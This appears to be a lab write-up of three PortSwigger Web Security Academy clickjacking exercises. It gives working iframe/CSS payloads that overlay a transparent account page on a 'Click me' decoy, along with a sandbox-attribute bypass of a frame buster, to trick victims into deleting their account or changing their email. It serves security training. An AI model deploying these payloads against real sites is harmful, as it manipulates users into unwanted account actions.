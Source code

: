 # Clickjacking

## Basics

### Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website. To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. You can log in to your own account using the following credentials: `wiener:peter`

_Note: The victim will be using Chrome so test your exploit on that browser._

----

1. Log in and view `my_account`:

![Clickjacking](../../_static/images/clickjacking1.png)

```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input required="" type="hidden" name="csrf" value="O4MwyJB2zDsba2zSUiNUP2mIOXyxqsjd">
        <button class="button" type="submit"> Update email </button>
    </form>
    <form id="delete-account-form" action="/my-account/delete" method="POST">
        <input required="" type="hidden" name="csrf" value="O4MwyJB2zDsba2zSUiNUP2mIOXyxqsjd">
        <button class="button" type="submit">Delete account</button>
    </form>
</div>
```

2. Create payload:
* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `300px` and `60px`, to align the "Delete account" button with the "Test me" decoy action.

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 300px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, change the position of the `div` element by modifying the `top` and `left` properties of the style sheet.
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking2.png)

6. And **Deliver exploit to victim**

### Clickjacking with form input data prefilled from a URL parameter

This lab extends the above `Basic clickjacking with CSRF token protection` lab. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button. To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed. You can log in to your own account using the following credentials: `wiener:peter`

_Note: The victim will be using Chrome so test your exploit on that browser._

----

1. Log in to the account on the target website.
2. Create payload:
* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `400px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 400px;
        left: 80;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, change the position of the `div` element by modifying the `top` and `left` properties of the style sheet.
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking3.png)

6. And **Deliver exploit to victim**

### Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address? To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed. You can log in to your own account using the following credentials: `wiener:peter`.

_Note: The victim will be using Chrome so test your exploit on that browser._

----

1. Log in to the account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `385px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="https://LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties of the style sheet. 
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking4.png)

6. **Deliver exploit to victim**

## Practitioner

### Exploiting clickjacking vulnerability to trigger DOM-based XSS

### Multistep clickjacking